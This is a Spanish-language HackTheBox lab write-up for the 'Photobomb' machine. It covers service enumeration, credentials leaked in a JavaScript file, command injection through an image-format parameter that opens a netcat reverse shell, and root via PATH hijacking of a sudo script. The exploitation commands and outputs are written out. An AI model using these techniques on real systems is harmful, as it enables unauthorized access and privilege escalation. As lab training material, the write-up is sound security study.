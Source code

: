 ```yaml
---
title: Writeup Photobomb
author: L4nder
date: 2023-02-06
img_path: /assets/img/HTB/photobomb
categories: [HackTheBox, Writeup, Easy]
tags: [HackTheBox, Writeup, Linux, Easy, RCE, Path Hijacking]
image:
  path: photobomb.png
  alt: Photobomb
---
```


Bueno, el dia de hoy nos haremos una maquina de dificultad **FACIL**!, de hecho, fue mi primera máquina activa que hice, le tengo nostalgia a la máquina.

En esta máquina tocaremos los siguientes puntos:
- Virtual Hosting
- Code Injection (RCE)
- Y un Path Hijacking para la escalada de privilegios!

## Enumeración

Primero vamos a comprobar que la máquina esté encendida con una traza ICMP (ping).

```plaintext
❯ ping -c 1 10.10.11.182
PING 10.10.11.182 (10.10.11.182) 56(84) bytes of data.
64 bytes from 10.10.11.182: icmp_seq=1 ttl=63 time=34.4 ms

--- 10.10.11.182 ping statistics --- 
1 packet transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 36.212/36.212/36.212/0.000 ms
```

En el output del comando podemos ver el parámetro `ttl`, el cual indica que es equivalente a `63`, nos podemos guiar del siguiente esquema para diferenciar a que sistema operativo nos estamos enfrentando.

```plaintext
TTL(64) -> GNU/Linux
TTL(128) -> Windows
```

En nuestro caso, el TTL se aproxima a 64, pero sin serlo, esto pasa porque en plataformas como HackTheBox o TryHackMe la traza ICMP pasa por un nodo intermediario, el cual le resta 1 punto al TTL.

Bueno, como en todas las máquinas, tendremos que comenzar escaneando todos los puertos, primeramente escanearemos TCP.

```plaintext
❯ nmap 10.10.11.182
Nmap scan report for photobomb.htb (10.10.11.182)
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
```

Al hacer un curl a la web y fijarnos en las cabeceras, podemos observar que nos redirige a `photobomb.htb`, este termino se le conoce como **VIRTUAL HOSTING**, ya que en este caso no podemos acceder a la web por la IP.

```plaintext
❯ curl -s 10.10.11.182 -I | grep "Location"
Location: http://photobomb.htb/
```

Bueno, tendremos que añadir el dominio `photobomb.htb` al /etc/hosts

```plaintext
❯ echo "10.10.11.182 photoboomb.htb" | sudo tee -a /etc/hosts
```

Si nos fijamos en el código fuente encontramos un archivo .js con el siguiente contenido

```shell
❯ curl -s -X GET http://photobomb.htb/photobomb.js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

Si nos fijamos bien, encontramos la url `http://pH0t0:b0Mb!@photobomb.htb/printer`, al abrirla nos autentica automaticamente, y podemos ver lo siguiente

<img src="Web1.png">

En la parte de abajo podemos descargar las imagenes en formato png y jpg.

<img src="descargar.png">

## Explotación

Interceptando la petición podemos observar que para elegir el formato de la imagen se puede cambiar aquí.

<img src="burp.png">

Nos podemos imaginar que la web usa un binario para la conversión del formato de la imagen, si este es el caso, podemos concatenarle un comando.

Así que crearemos una reverse shell con nc y mkfifo en [Reverse Shells](https://revshells.com), recordad que esta ha de ser url encodeada.

<img src="rev.png">
<img src="rev2.png">

Para poner el cmoando despues del png ponemos un `;` y nuestro oneliner

<img src="burprev.png">

Al darle a forward recibimos la shell y conseguimos la primera flag!

```plaintext
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.182] 44954
wizard@photobomb:~/photobomb$ id
id
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
wizard@photobomb:~/photobomb$ hostname -I
hostname -I
10.10.11.182 dead:beef::250:56ff:feb9:86ca
wizard@photobomb:~/photobomb$ cat ../user
cat ../user.txt
638**************************393
wizard@photobomb:~/photobomb$
```

## Escalada de Privilegios

Al mirar los privilegios que tenemos, observamos que podemos ejecutar un script, pero además tenemos la capacidad de setear variables de entorno

```plaintext
wizard@photobomb:~$ sudo -l
Matching Defaults entries for wizard on photobomb:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
(root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:~$
```

Mirando el script podemos ver que usa find de manera relativa y no con su ruta absoluta.

```plaintext
wizard@photobomb:~$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb
# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
/bin/cat log/photobomb.log > log/photobomb.log.old
/usr/bin/truncate -s0 log/photobomb.log
fi
# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
wizard@photobomb:~$
```

Nos podemos aprovechar de nuestro privilegio de poder setear variables de entorno como el path para que nos ejecute el coamndo find personalizado, y bajo el contexto de root nuestro comando find personalizado se ejecutará como root

Para esto tendremos que crear un archivo find que tenga bash en su interior y le daremos permisos de ejecución.

```plaintext
wizard@photobomb:~$ echo bash > find
wizard@photobomb:~$ chmod +x find
wizard@photobomb:~$
```

Ahora cambiamos la variable path y ejecutamos el script, consiguiendo una consola como root

```plaintext
wizard@photobomb:~$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# id
uid=0(root) gid=0(root) groups=0(root)
root@photobomb:/home/wizard/photobomb# hostname -I
10.10.11.182 dead:beef::250:56ff:feb9:86ca
root@photobomb:/home/wizard/photobomb# cat /root/root.txt
0ad**************************058
root@photobomb:/home/wizard/photobomb#
```

Bueno, este ha sido mi primer writeup! Espero que os haya gustado!
